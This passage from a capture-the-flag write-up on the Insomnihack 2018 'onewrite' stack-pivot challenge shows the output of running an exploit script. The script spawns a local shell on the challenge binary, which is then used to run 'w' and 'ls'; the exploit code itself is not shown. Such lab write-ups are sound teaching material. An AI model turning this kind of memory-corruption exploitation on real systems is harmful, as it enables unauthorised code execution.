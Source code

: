 When we run it:

```
$ python exploit.py
[+] Starting local process './onewrite': pid 14815
[!] Did not find any GOT entries
[*] '/Hackery/pod/modules/stack_pivot/insomnihack18_onewrite/onewrite'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
 $ w
 22:42:39 up  8:27,  1 user,  load average: 1.46, 1.54, 1.63
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               14:15   ?xdm?  39:17   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --session=ubuntu
$ ls
core  exploit.py  onewrite  readme.md
```

Just like that, we popped a shell!